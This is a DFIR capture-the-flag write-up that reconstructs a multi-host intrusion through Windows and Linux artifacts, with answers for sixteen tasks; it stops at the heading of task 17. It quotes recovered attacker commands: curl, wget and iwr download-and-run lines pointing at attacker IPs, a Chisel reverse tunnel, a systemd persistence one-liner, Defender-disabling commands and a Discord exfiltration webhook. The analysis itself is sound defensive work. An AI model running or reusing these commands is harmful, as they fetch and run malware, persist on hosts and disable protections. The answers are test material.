# CorpDown-2



| Investigation Details | |
| :--- | :--- |
| **Category** | *DFIR* |
| **Difficulty** | *Hard* |
| **Solve Date** | *10/25/2026* |

---

## Scenario Overview

> A security breach was detected on TriDsk-WKS01 shortly after an employee returned from vacation. The TriDsk corporate IR team identified additional anomalous activity but prematurely initiated containment and eradication before completing identification, analysis, and scoping, limiting situational awareness. The threat actor observed IR interference and adapted their operations, accelerating lateral movement across the corporate network and leveraging existing persistence. This facilitated backup deletion and large-scale data exfiltration, culminating in a Corp Down scenario that rendered standard restoration procedures ineffective.

---

## Task 1
**The threat actor abused an internal communication service between employees and shared a malicious file to facilitate lateral movement within the network. This activity is believed to have originated from TriDsk-WKS02 which was recently compromised. Provide the full path of the file that was downloaded.**

For this one I used MFT Explorer on WKS01's `$MFT`. Since the file was shared through the employees' chat service, I went straight to the victim's Downloads folder (`\Users\martha\Downloads`). The only things in there are `desktop.ini` and `TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk`, created at 2025-12-26 00:43:26. The double extension is what gave it away, Windows hides the `.lnk` part, so the user only sees a PDF called release notes when it's really a shortcut.



**Answer:** `C:\Users\Martha\Downloads\TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk`

---

## Task 2
**The threat actor downloaded a keylogger to the endpoint to capture user keystrokes. Provide the exact URL used to download the keylogger.**

I navigated to the path answered in Task 1, and I see the `.pdf.lnk` file, I've checked its properties and see a shortcut command. It runs `cmd.exe /c curl.exe -o "%TEMP%\wctBB85.exe" "http://93.121.68.102:1290/t.exe" && start "" "%TEMP%\wctBB85.exe"`, so it downloads a file, saves it as `wctBB85.exe` in the user's Temp folder and starts it right away.



`http://93.121.68.102:1290/t.exe`

I tried entering that to the answer box and it wouldn't accept. Looking back, that makes sense, because that URL only delivers `wctBB85.exe`, which I assume is the first stage, not the keylogger. The strings FLOSS pulled out of it back that up: it's a Go binary containing Empire's agent source path (`.../powershell-empire/empire/server/data/agent/gopire/main.go`) and a hardcoded C2 address (`http://93.121.68.102:8012`), so it's the Empire agent.

During this roadblock, I've decided to look into every suspicious PE file in the compromised user 'martha'. I've checked all their folders and cross checked with Prefetch logs and here's what I found:

`wctBB85.exe`, `svchosts.exe`, `temp.exe`

I ran FLOSS on all of them, and sure enough `temp.exe` was my target keylogger. It imports `GetAsyncKeyState` and `GetForegroundWindow`, and has strings like `[ENTER]`, `[BACKSPACE]` and a log file name `edg698F.dat`. To verify, I ran EvtxECmd on the disk's PowerShell logs as well to get the URL for the keylogger. Surely enough I got a hit, `iwr "http://93.121.68.219:8908/645.exe" -OutFile "C:\Users\Public\Music\temp.exe"` at 00:57:43, which also tells me where it landed. It's a different IP and port from the first stage. I also saw the attacker's first commands as they landed in the system, your usual commands to check if you're here like `whoami`.



**Answer** `http://93.121.68.219:8908/645.exe`

---

## Task 3
**The threat actor identified and abused a protocol that enabled pivoting to other endpoint within the environment. They used a tool to facilitate further lateral movement abusing this protocol. Find the full command line used to move laterally using port forwarding.**

Going back to last task, I also found a suspicious file called `svchosts.exe` which was a masquerading file supposed to be `svchost.exe`. I ran FLOSS on that file too same with the Empire agent and the keylogger and I found out that it was a Chisel tool. I also saw this in the previously mentioned PowerShell log file so it makes sense.

`powershell -Command powershell.exe 'Invoke-WebRequest -Uri "http://93.121.68.219:8908/6412.exe" -OutFile "$env:temp\svchosts.exe"'`

Was the command to download the Chisel. Then the picture below was the command the attacker used via the Chisel to perform lateral movement. Breaking it down, `client` connects back to the attacker's Chisel server at `93.121.68.219:8080` (the `--fingerprint` pins that server's key), and `R:8000:10.101.1.12:22` is a reverse port forward, which relays the attacker's port 8000 through WKS01 to port 22 on `10.101.1.12`. Port 22 is SSH, so that's the protocol being abused. It ran at 2025-12-26 01:31:09.



**Answer:** `powershell -Command C:\Users\martha\AppData\Local\Temp\svchosts.exe client --fingerprint YyOMHvo9v7CraOiZmWDmEuRvP6fiIsIeroYRZUqq7f0= 93.121.68.219:8080 R:8000:10.101.1.12:22`

---

## Task 4
**To force the user to re-enter their credentials for credential harvesting, the threat actor deployed a script that continuously monitors for the execution of the process related to the protocol being abused and immediately terminates it. Provide the process termination time.**

This one had me stuck for a while, since nothing on the Windows side records when a process gets killed. What I did have is the script itself. Going back to the same PowerShell log, I found `Invoke-ProcessKiller` being run at 00:52:47. It's a small loop that sleeps for 1 second, looks for a process called `ssh` and force kills it with `Stop-Process -Force`, which matches the question since SSH is the protocol Chisel was forwarding in Task 3. So I knew what got killed, just not when.



The Chisel forward from Task 3 pointed at port 22 on `10.101.1.12`, so I figured the user's SSH session had to be going to that machine. That's the CatScale folder from the start (its `ip-a` output confirms `10.101.1.12` is `app01`), so I decided to read the Linux logs instead. In `auth.log`, the SSH session of `dev01@tridsk.local` coming from `10.101.2.7` (WKS01's IP, which I confirmed in its SYSTEM hive) closes at `Dec 26 02:52:51`, only 4 seconds after the script started, and there's no `Received disconnect` line like the clean logout earlier in the log, which fits a process being killed. `last` agrees, `dev01 pts/0 ... 02:48:05 - 02:52:51`.



One thing to be careful with is the time zone, since the Linux logs use local time. The collection's date output says UTC while `last` shows the collector logging in two hours later, so app01 is on UTC+2. Subtracting 2 hours gives 00:52:51 UTC, which lines up with the Windows logs. As a double check, the five `ssh.exe` run times in WKS01's Prefetch (the first one is 00:43:53 UTC) each match an app01 login attempt a few seconds later (02:43:56 local for the first).

**Answer:** `2025-12-26 00:52:51`

---

## Task 5
**Identify the time interval (in milliseconds) that the keylogger waits before sending captured data to the server.**

FLOSS on `temp.exe` doesn't give the interval directly. What it does show is `Sleep` and `clock` in the imports, the log file name `edg698F.dat`, `GetTempPathA`, and the WinHTTP calls, so the keylogger writes to a file in `%TEMP%` and sends it out on a timer. Since the interval is a number inside the code and not a string, I went after the behavior instead and looked at `edg698F.dat` in the USN journal. It's created at 01:00:42, right after `temp.exe` starts (Prefetch says 01:00:41), gets written to constantly, and then gets truncated at 01:20:50, 01:40:51, 03:01:09, 03:21:19 and 05:41:32.

Every gap is a whole multiple of 1200 seconds plus a few seconds of overhead: 1208 s from launch to the first clear, then 1201 s, 4 x 1200 s, 1209 s and 7 x 1200 s. Some 20 minute cycles didn't clear the file at all, which is why a few gaps are longer, but none of them is shorter. 1200 seconds is 20 minutes, which is 1,200,000 milliseconds.



**Answer:** `1200000`

---

## Task 6
**The keylogger exfiltrated captured data to a remote server. Provide the full destination URL.**

I went back to the FLOSS output of `temp.exe`, this time at the UTF-16LE strings at the bottom: `Mozilla/5.0`, `POST`, `Content-Type: application/json` and `https://pastebin.com/raw/vt8yt1pH`. Together with the WinHTTP imports and a JSON template in the ASCII strings that looks like `{"content": "```...```"}`, which is the shape of a Discord webhook message, it was clear the keylogger sends its log as JSON. A POST can't go to a Pastebin raw page though, so the Pastebin link is where the keylogger gets its real destination from, and the paste holds the Discord webhook URL.

As a sanity check, Discord IDs embed their creation time. Decoding the webhook ID `1452445434894221455` gives 2025-12-21 23:39:36 UTC, a few days before the intrusion.




**Answer:** `https://discord.com/api/webhooks/1452445434894221455/pKIO5TZGrGL7KaWLb_H03S61nI9OcRe_UKvEHhOBgG507IyprUxzYzBSOyTj46c2AVCY`

---

## Task 7
**After harvesting credentials, the threat actor moved laterally to another endpoint. When did they successfully authenticate to the new endpoint?**

The new endpoint is `app01`, the Linux server, so I went back to its `auth.log` and looked for successful SSH logins from WKS01 (`10.101.2.7`) after Chisel started at 01:31:09. Sure enough there's one right after: `Dec 26 03:33:03 ... Accepted password for dev01@tridsk.local from 10.101.2.7 port 50922` with `New session 55`. The earlier logins from WKS01 (02:48:03 and 03:09:27 local) belong to the user, and the second one lines up with the user re-entering their password right after the script from Task 4 killed their session, while the keylogger was running. Connections coming through the Chisel tunnel show up as coming from WKS01's own IP, which is why the attacker's login has the same source address.

Converting from app01's local time (UTC+2) gives 01:33:03 UTC.



**Answer:** `2025-12-26 01:33:03`

---

## Task 8
**After moving laterally to the second system, the threat actor downloaded two malicious executables. When was the second executable file downloaded?**

For the commands, I checked `dev01`'s `.bash_history` from the CatScale collection. Two `wget` commands from the attacker's server stood out, in this order: `wget http://93.121.68.219:8908/b22 -O /tmp/bash` and then `wget http://93.121.68.219:8908/b21 -O /tmp/sh`. So `/tmp/sh` is the second one. Shell history has no timestamps, so I opened the CatScale file timeline (`full-timeline.csv`) in Timeline Explorer to get them, and the birth times are 03:36:03 for `/tmp/bash` and 03:50:20 for `/tmp/sh`, both owned by `dev01`. Converting from app01's local time to UTC gives 01:50:20.




**Answer:** `2025-12-26 01:50:20`

---

## Task 9
**The threat actor established persistence on this newly compromised endpoint after successfully escalating privileges. What is the full command that is executed as part of the persistence mechanism?**

The `auth.log` shows how the privilege escalation went. The attacker's `dev01` session ran `su` to `svc-app01` at 03:53:34 and then `sudo` to root at 03:55:36 (local). After that, there's a root `tee` writing a new unit file, `/etc/systemd/system/systemd-journald-helper.service`, at 07:20:10.



 The name is made to look like a legit systemd component, but that's not a real service. I found the file in the modified `/etc` files from CatScale and its `ExecStart` is `/bin/bash -c "echo '<base64>' | base64 -d | bash"`, with `Restart=always` and `RestartSec=60`. I decoded the base64 in CyberChef.




**Answer:** `curl -fsSL http://93.121.68.219:8908/updat3 -o /dev/shm/.upd&& chmod +x /dev/shm/.upd&& /dev/shm/.upd`

---

## Task 10
**Determine the total dwell time, in minutes, that the threat actor spent on the second endpoint.**

The start is the login from Task 7, 03:33:03 local. For the end I looked at when that same session closed in `auth.log`, `session closed for user dev01@tridsk.local` and `Removed session 55` at 07:23:28, and `last` shows the same session as `03:33:03 - 07:23:28 (03:50)`. Everything the attacker did on the box (the downloads, the `su` and `sudo`, and the service file) happened inside that window, and the later `auth.log` entries are the collection running and a scheduled backup mount, not the attacker.

03:33:03 to 07:23:28 is 3 hours 50 minutes 25 seconds, which is 230.42 minutes. Since both times are in the same local time zone, the offset doesn't matter here.



**Answer:** `230.42`

---

## Task 11
**The threat actor performed lateral movement from Second Compromised Endpoint to another endpoint. Which alternative user account was used to access the target endpoint?**

Back in root's `.bash_history` on app01, right after the attacker became root, there's a run of commands going through `/root/.smbcredentials/`: `cat tridsk_backup.cred` followed by `smbclient -L //10.101.1.10 -U filesrv_admin`. That file is where the backup mount keeps the credentials for a file server account, and the file timeline shows `/root/.smbcredentials` was accessed at 03:55:44 local, 8 seconds after the `sudo` to root. I then went to the domain controller's Security log with EvtxECmd and Timeline Explorer and searched for that account. It has network logons (type 3, NTLM) coming from `10.101.1.12`, which is app01's address, with the first one at 2025-12-26 02:04:41 UTC. It's a different account from the `dev01` the attacker was using on app01, so this is the alternative account the question is after.



**Answer:** `FileSrv_Admin`

---

## Task 12
**The threat actor obtained initial access on third machine by downloading and executing a malicious executable. Provide the full command used to execute the malicious file.**

This one needed me to figure out which machine is the third one first. Counting in the order they were compromised, WKS01 is first, app01 is second, and the domain controller `DC01` is third, since `FileSrv_Admin` logged on there at 02:04:41, long before anything happened on the file server `FS01` (03:52 onwards), which later tasks call the fourth endpoint. So I parsed DC01's `Windows PowerShell.evtx` with EvtxECmd and loaded it in Timeline Explorer. Two base64 encoded commands stood out, and decoding them in CyberChef shows they're downloads of `http://93.121.68.219:1290/t.exe`, the same file as the first stage on WKS01, first to `$env:temp\update.exe` at 02:16:05 and then to `C:\Users\Administrator\Music\update.exe` at 02:21:55. Right after that, at 02:22:51, there's the command that runs it.




**Answer:** `powershell -c Start-Process C:\Users\Administrator\Music\update.exe`

---

## Task 13
**What is the full file path associated with the malicious service created on the third compromised endpoint?**

For new services I looked at DC01's `System.evtx` for Event ID 7045 (a service was installed), again through EvtxECmd and Timeline Explorer. Sorting by time, the last two entries are `MpKsl16c6acd0` from 2025-12-24 and `f94c290` at 2025-12-26 03:33:44. The first one is just Defender's own kernel driver (`MpKslDrv.sys` under `C:\ProgramData\Microsoft\Windows Defender\Definition Updates\`), which gets installed with the definition updates, and everything before that is old driver and role installs, Velociraptor and VirtualBox, so `f94c290` is the only one that doesn't belong. It runs as LocalSystem, has a random hex name, and its executable sits on the `ADMIN$` share over `127.0.0.1`, which is the footprint of remote execution tooling. The USN journal backs it up, since `f94c290.exe` was created in `C:\Windows` at the same second the service was installed and deleted about two seconds later, which is how this kind of throwaway service cleans up after itself.



**Answer:** `\\127.0.0.1\ADMIN$\f94c290.exe`

---

## Task 14
**When was Windows Defender real-time protection disabled on the endpoint?**

Since the question is about Defender, I went back to DC01's PowerShell log, where I saw a couple of `powershell -nop -exec bypass -enc ...` entries with a base64 string. I decoded them in CyberChef (From Base64, then Remove null bytes) and they turned out to be two different commands, `Set-MpPreference -DisableBehaviorMonitoring $true -Verbose` at 02:46 and `Set-MpPreference -DisableRealtimeMonitoring $true -Verbose` at 02:48. So the attacker turned off behavior monitoring first and real-time protection second, and since the question asks specifically about real-time protection, the second one is the one that matters.

The same encoded command also shows up on a lot of rows, but that's not the attacker running it over and over. The command is launched as `powershell -Command powershell -nop ... -enc ...`, so two PowerShell engines start and each one logs a handful of `Provider is Started` rows and an engine state change. For the real-time command, the rows at 02:48:43 are those engines starting up, and the two `Available to Stopped` rows at 02:48:44 are them finishing, which is when the change actually went through. As a double check, Defender's own log (`Microsoft-Windows-Windows Defender%4Operational.evtx`) has Event ID 5001 (Real-time protection is disabled) at 02:48:44, and the earlier behavior monitoring change shows up there as Event ID 5004 at 02:46:34.




**Answer:** `2025-12-26 02:48:44`

---

## Task 15
**The threat actor created a new user account and added it to the 'Domain Admins' group. What is the name of the user account?**

For account changes I went to DC01's `Security.evtx` and looked at the account management events. Around 03:43:16 there's a burst of them for a user called `s1rx`, Event ID 4720 (a user account was created) followed right after by 4722 (enabled), 4724 (password set) and 4738 (changed). A brand new account on a domain controller is already suspicious, especially on the same day the attacker got in, and at 03:43:55 Event ID 4728 shows `CN=s1rx,CN=Users,DC=TriDsk,DC=local` being added to the `Domain Admins` group, which is exactly what the question describes. The name also rang a bell, `s1rx` matches the handle in the keylogger's build path (`C:\Users\0xS1rx58\...\apptsd.pdb` in the FLOSS output), so it ties back to the same actor. The events are all logged under `DC01$` as the subject, meaning the account was created from a SYSTEM context, which fits the `f94c290` service from the last task.



**Answer:** `s1rx`

---

## Task 16
**The threat actor attempted to enable the RDP protocol on the endpoint but failed in doing so. They then moved laterally to another endpoint and successfully enabled RDP for remote access. When was RDP enabled?**

This one has two halves. For the failed attempt I went to DC01's PowerShell log, where at 03:45:08 there's a command that downloads and runs a public `Enable-RDP.ps1` script from GitHub (`IEX (New-Object Net.WebClient).DownloadString(...)`). To see if it worked I checked DC01's SYSTEM hive, and `fDenyTSConnections` under `Control\Terminal Server` is still `1` with the key last written before the attack, so RDP never got enabled there. A few minutes later, at 03:48:48, they also started Chisel on DC01 with a forward to port 3389 (`R:1010:10.101.1.5:3389`), and then moved on to the file server.

For the successful one, I checked FS01's SYSTEM hive in Registry Explorer (with the transaction logs replayed, since the hive was dirty). Its `Control\Terminal Server` key has `fDenyTSConnections = 0`, meaning RDP connections are allowed, and a last write time of 04:14:10, which is when it was turned on. As a double check, FS01's RDP logs show the RDP listener being created one second later, at 04:14:11.



**Answer:** `2025-12-26 04:14:10`

---

## Task 17
**After Enabling RDP on the fourth endpoint, when did the attacker successfully log in via RDP using the backdoor account?**

